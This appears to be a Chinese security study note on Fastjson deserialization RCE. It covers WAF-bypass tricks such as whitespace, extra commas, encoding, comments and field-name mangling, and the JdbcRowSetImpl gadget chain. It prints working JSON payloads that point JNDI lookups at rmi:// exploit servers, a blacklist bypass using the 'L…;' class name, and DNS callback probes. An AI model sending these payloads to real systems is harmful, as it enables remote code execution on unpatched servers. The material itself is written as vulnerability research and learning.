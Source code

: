 
# Fastjson的Waf绕过

Fastjson算是RCE最常碰到的漏洞了，但是除了利用外对其知之甚少，因此学习一下，这里主要结合Y4tacker师傅的文章进行分析学习。

首先初始exp类似于这样：

[![OfYebV.jpg](https://s1.ax1x.com/2022/05/16/OfYebV.jpg)](https://imgtu.com/i/OfYebV)

## 1.空白字符绕过

在键值对外添加空白字符时会被代码过滤，可用于绕waf

[![OfYZD0.jpg](https://s1.ax1x.com/2022/05/16/OfYZD0.jpg)](https://imgtu.com/i/OfYZD0)

Y4tacker师傅给出了fastjson自身过滤空白字符的代码

 - [ ] com.alibaba.fastjson.parser.JSONLexerBase#skipWhitespace
       
       public final void skipWhitespace()
       
       { while(true)
       
       { while(true)
       
       { if (this.ch <= '/')
       
       { if (this.ch == ' ' || this.ch == '\r' || this.ch == '\n' ||
       this.ch == '\t' || this.ch == '\f' || this.ch == '\b')
       
       { this.next(); continue; }
       
       if (this.ch == '/') {
       
       this.skipComment();
       
       continue; } }
       
       return; } } }

## 2.添加逗号

FastJson中有个默认的Feature是开启的 AllowArbitraryCommas ，这允许我们⽤多个逗号

还是师傅分析的

[![OfY6qP.png](https://s1.ax1x.com/2022/05/16/OfY6qP.png)](https://imgtu.com/i/OfY6qP)

添加的位置在键值对两边，在冒号两边添加会出错

[![OfYVuq.jpg](https://s1.ax1x.com/2022/05/16/OfYVuq.jpg)](https://imgtu.com/i/OfYVuq)

## 3.字段名不加引号

默认开启的Feature， AllowUnQuotedFieldNames ，但是只在恢复字段的过程调⽤ 当中有效果

师傅分析的：

[![OfYfPg.png](https://s1.ax1x.com/2022/05/16/OfYfPg.png)](https://imgtu.com/i/OfYfPg)

> {"zeo":{"@type":"java.net.Inet4Address","val":"r.qsu9q8.ceye.io"}}
> 
> ||
> 
> \/
> 
> {"zeo":{"@type":"java.net.Inet4Address",val:"r.qsu9q8.ceye.io"}}

[![OfYuUU.jpg](https://s1.ax1x.com/2022/05/16/OfYuUU.jpg)](https://imgtu.com/i/OfYuUU)

## 4. @type后的值第⼀个引号可以替换为其他字符

[![OfYgVf.png](https://s1.ax1x.com/2022/05/16/OfYgVf.png)](https://imgtu.com/i/OfYgVf)

因此替换引号为任意字符即可正常执行

[![OfYnET.jpg](https://s1.ax1x.com/2022/05/16/OfYnET.jpg)](https://imgtu.com/i/OfYnET)

## 5.编码绕过

⾸先在 com.alibaba.fastjson.parser.JSONLexerBase#scanSymbol ,当中可以看见， 如果遇到了 \u 或者 \x会有解码操作

[![OfYyrt.png](https://s1.ax1x.com/2022/05/16/OfYyrt.png)](https://imgtu.com/i/OfYyrt)

大致是u的情况为读取四个字符排列，以16进制转字符，至于为什么hash*31，是考虑了计算机的计算方法，参考[hashCode 为什么乘以 31?深入理解 hashCode 和 hash 算法_小七会喷火的博客-CSDN博客](https://blog.csdn.net/Javabaibai/article/details/112394217)

v的情况没法控制，不考虑；x的情况则是读取两个字符，计算16进制再转字符

 - [ ] 因此两种情况就是Unicode和ASCII值的转换：
       
       {"zeo":{"@type":"java.net.Inet4Address","val":"r.qsu9q8.ceye.io"}}
       
       {"\u0396eo":{"\x40type":"java.net.Inet4Address","val":"r.qsu9q8.ceye.io"}}

## 6. 对字段添加多个下划线或者减号

1.2.36版本前在 com.alibaba.fastjson.parser.deserializer.JavaBeanDeserializer#parseFie ld 解析字段的key的时候，调⽤了 smartMatch

[![OfYDxA.png](https://s1.ax1x.com/2022/05/16/OfYDxA.png)](https://imgtu.com/i/OfYDxA)

> {"a": {"@type": "java.lang.Class","val":
> 
> "com.sun.rowset.JdbcRowSetImpl"},"b": {"@type":
> 
> "com.sun.rowset.JdbcRowSetImpl","d_a_taSourceName":
> 
> "rmi://127.0.0.1:1099/Exploit","autoCommit": true}}

1.2.36版本后相反会忽略“-”和"_"，因此利用方法类似

## 7. 属性前添加is

在那个基础上,还是在 smartMatch 当中可以看见，如果前缀有 is ，会去掉 is

[![OfYsKI.png](https://s1.ax1x.com/2022/05/16/OfYsKI.png)](https://imgtu.com/i/OfYsKI)

> {"a": {"@type": "java.lang.Class","val":
> 
> "com.sun.rowset.JdbcRowSetImpl"},"b": {"@type":
> 
> "com.sun.rowset.JdbcRowSetImpl","isdataSourceName":
> 
> "rmi://127.0.0.1:1099/Exploit","isautoCommit": true}}

## 8.注释

Y4tacker师傅给出的一种猜想，实际情况我暂时没有成功

com.alibaba.fastjson.parser.JSONLexerBase#nextToken()

解析时如果开头不为“{”或“[”时，进入nextToken()方法，

[![OfY2a8.png](https://s1.ax1x.com/2022/05/16/OfY2a8.png)](https://imgtu.com/i/OfY2a8)

[![OfYRIS.png](https://s1.ax1x.com/2022/05/16/OfYRIS.png)](https://imgtu.com/i/OfYRIS)

> /*\u001a{/*y4tacker*/"@type":"com.sun.rowset.JdbcRowSetImpl","dataSource
> Name":"rmi://127.0.0.1:1099/Exploit", "autoCommit":true}*/

其他的注释有：/**/和//，可以插入注释打乱Waf的正则

> {"zeo":{/_adawdawdaw_/"@type":"java.net.Inet4Address","val":"t2t.507a43c8.dns.1433.eu.org."}}

## 9.写在最后的分析

最后再分析几个fastjson的利用链

参考：[fastjson漏洞学习分析](https://www.jianshu.com/p/1ed027080459)

这里没有下载fastjson的包去断点调试，主要依靠文章分析一下

### JdbcRowSetImpl利用链

1.2.24版本：

DefaultJSONParser中，解析json开始，key为@type则加载对应class，autoCommit为true则调用this.connect，connect()方法进而继续建立dataSource去调用lookup()方法，此时请求到恶意的rmi服务通过lookup方法就实例化了这个恶意类

> { "@type":"com.sun.rowset.JdbcRowSetImpl",
> "dataSourceName":"rmi://ip:port/Exploit", "autoCommit":true }

补丁后的绕过：

> {"@type":"org.apache.ibatis.datasource.jndi.JndiDataSourceFactory","properties":{"data_source":"rmi://ip:port/Exploit"}}
> 使用不在黑名单的类进行绕过{"@type":"Lcom.sun.rowset.RowSetImpl;","dataSourceName":"rmi://ip:port/Exploit","autoCommit":true}使用L和;去匹配头尾规则绕过黑名单

1.2.47版本：

java.lang.Class开始，loadclass->val作为对象进行加载，加载com.sun.rowset.JdbcRowSetImpl类，loadclass函数中，当cache为true是，会将JdbcRowSetImpl类加载到map缓存中，到这第一个类加载结束。第二个类开始，class为空（不存在）时，会从mapping中去找。在第一个json数据处理后，JdbcRowSetImpl类已经被加载到map缓存，然后直接就返回class的类。

> { "a":{ "@type":"java.lang.Class",
> "val":"com.sun.rowset.JdbcRowSetImpl" }, "b":{
> "@type":"com.sun.rowset.JdbcRowSetImpl",
> "dataSourceName":"rmi://ip:9999/Test", "autoCommit":true } }

